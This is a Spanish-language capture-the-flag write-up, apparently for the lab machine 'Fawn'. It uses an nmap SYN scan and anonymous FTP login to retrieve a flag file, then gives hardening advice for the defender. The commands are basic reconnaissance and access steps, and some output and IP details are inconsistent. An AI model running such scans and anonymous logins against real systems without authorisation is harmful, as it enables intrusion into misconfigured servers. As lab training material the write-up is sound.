






# Fawn
> **Dificultad:** Muy Fácil

> **IP:** 10.129.5.231

> **SO:** Linux

> **Habilidades puestas a prueba:**
> - Escaneo
> - Análisis de malas configuraciones en servicios remotos
> - Navegación e interacción con servicios de transferencia 
> - Navegación e interacción en consola Linux

> **Hallazgos:** Servicio FTP expuesto que permite el acceso con el usuario **anonymous**

---

# Descripción

**Fawn** es una máquina Linux muy sencilla que explora el Protocolo de Transferencia de Archivos (FTP) y su explotación cuando está mal configurada para permitir el acceso anónimo.

---

# Herramientas utilizadas
- `Nmap` - Herramienta de escaneo de red empleada para la identificación de servicios en la máquina objetivo.
- `Cliente FTP` - Interacción directa con el puerto **21** para validar el acceso con el usuario `anonymous`
- `Kali Linux` - Distribución utilizada como entorno de trabajo.

---

# Alcance y objetivos

Explotación del servicio FTP mal configurado que permite el acceso al usuario anonymous sin credenciales válidas

---

# Escaneo

Se realizó un escaneo de puertos hacia la IP objetivo identificando el puerto **21/TCP** abierto el cual corresponde al servicio **FTP** con la versión **(vsftpd 3.0.3)**
```bash
nmap -sS -sV -Pn -p 21 10.129.5.231
```
# Output
```bash
PORT   STATE SERVICE VERSION
21/ftp open  ftp     vsftpd 3.0.3
```


# Desglose del comando:
 1. ``-sS (SYN Scan):`` Realiza un escaneo de sigilo (medio abierto) para determinar si el puerto está abierto sin completar el saludo de tres vías (Three-Way Handshake) de TCP.
  
  2. ``-sV (Version Detection):`` Interroga al puerto para identificar la versión exacta del servicio activo.
  
  3. `-Pn (No Ping):` Omite la prueba ICMP inicial y asume que el host está activo para evitar que un firewall bloquee el análisis.
  
  4. ``-p 21:`` Restringe el escaneo únicamente al puerto objetivo para optimizar el tiempo de respuesta.

---

# Enumeración

Al confirmar la presencia del servicio FTP activo, se procedió a evaluar si el servidor permitía el inicio de sesión anónimo (Anonymous FTP Access). Esta es una mala configuración común en la que el usuario anonymous permite ingresar sin requerir credenciales válidas.

```bash
ftp -a 10.129.5.231
```

# Output
```bash
Trying 10.129.247.95...
Connected to 10.129.5.231.
220 (vsftp 3.0.3)
331 Please specify the password.
230 Login successful
ftp>
```
Se utilizó el cliente nativo de FTP para conectarse en modo anónimo mediante el parámetro `-a` (el cual envía automáticamente las credenciales de usuario anónimo).



---
# Explotación

Una vez establecida la sesión en el servidor **FTP**, se listaron todos los archivos del directorio (incluyendo archivos ocultos) usando el comando `ls -la`:

```bash
ls -la
````


Al identificar la presencia del archivo **flag.txt**, se procedió a descargarlo hacia la máquina local atacante utilizando el comando `get` y finalmente se finalizó la conexión con el comando `exit`.
```` bash
exit
````



Después de finalizar la conexión se procede a listar los archivos de la consola linux donde identificamos el **flag.txt**
``` bash
ls
```



Después abrimos el archivo con el comando `cat flag.txt` y conseguiremos la bandera.
```` bash
cat flag.txt
````



### Flag: 035db21c8***************

---

# Lecciones aprendidas y recomendaciones

- **Deshabilitar el acceso anónimo:** En entornos de producción, el acceso anónimo debe desactivarse explícitamente en el archivo de configuración del servidor FTP.
- **Restricción de permisos y control de acceso:** En caso de requerir un servidor FTP público, los usuarios anónimos sólo deben tener acceso a directorios aislados y sin permisos de lectura sobre archivos sensibles del sistema.
- **Migración a protocolos seguros:** Reemplazar FTP (que transmite datos y credenciales en texto plano) por alternativas cifradas como SFTP (SSH File Transfer Protocol) o FTPS (FTP over TLS).


---

# Conclusión
El análisis realizado sobre el objetivo permitió identificar una vulnerabilidad de alto impacto provocada por una mala configuración en el servidor FTP **(Anonymous FTP Access)**.
Este error permite a un atacante no autenticado establecer una sesión remota, listar la estructura de archivos y descargar información confidencial sin necesidad de proveer credenciales válidas ni realizar explotación compleja. El hallazgo resalta la importancia crucial de realizar un hardening adecuado sobre los servicios de transferencia de archivos expuestos a la red.


